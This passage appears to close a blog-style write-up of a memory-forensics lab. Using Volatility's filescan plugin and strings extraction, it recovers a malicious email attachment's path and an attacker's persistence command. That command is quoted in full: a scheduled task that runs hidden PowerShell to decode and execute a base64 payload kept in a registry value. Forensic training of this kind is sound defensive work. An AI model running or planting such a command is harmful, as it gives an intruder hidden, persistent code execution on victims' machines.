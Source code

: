 ### Q. What is the full file path of the malicious email attachment based on the memory dump?

Using the `filescan` plugin, which scans the files accessed stored in the memory dump, we find the full path of the .doc file.

<img width="1580" height="75" alt="Capture d'écran 2025-08-12 155853" src="https://github.com/user-attachments/assets/6a5e5eee-5af4-4b89-9043-978415d2fda6" />


_Answer_ : C:\Users\maxine.beck\AppData\Local\Microsoft\Windows\INetCache\Content.Outlook\WQHGZCFI\Resume_WesleyTaylor (002).doc

### Q. The attacker implanted a scheduled task right after establishing the c2 callback. What is the full command used by the attacker to maintain persistent access?
Once again, I hit a dead end. I parsed through the process list, searching for schtasks or anything resembling a task scheduler like autorun but came up empty.
After long minutes, I decided to go back to my earlier approach and extract all strings from the memory dump in the hope of finding something. Luckily, it paid off as multiple instances of the string schtasks appeared, along with what seemed to be a command line linked to task scheduling.

<img width="1919" height="496" alt="Capture d'écran 2025-08-12 163046" src="https://github.com/user-attachments/assets/d300b0e6-4032-4dd8-ab67-0c0915cdad73" />

_Answer_ : schtasks /Create /F /SC DAILY /ST 09:00 /TN Updater /TR 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -NonI -W hidden -c \"IEX ([Text.Encoding]::UNICODE.GetString([Convert]::FromBase64String((gp HKCU:\Software\Microsoft\Windows\CurrentVersion debug).debug)))\"'

## Conclusion

This room definitely wasn’t as challenging as the previous one, but I still found myself struggling with a few questions. 

I am still not used to checking for `strings` when analyzing files, and that definitely showed. 

Aside from that, the room was a great exercise in memory investigation using one of Volatility’s most useful plugins. Memory analysis is one of the first steps forensic analysts take when examining a device, due to its volatile nature, and it’s a crucial stage in threat hunting. 

Overall, this was a valuable and well-designed exercise and I greatly enjoyed going through it.









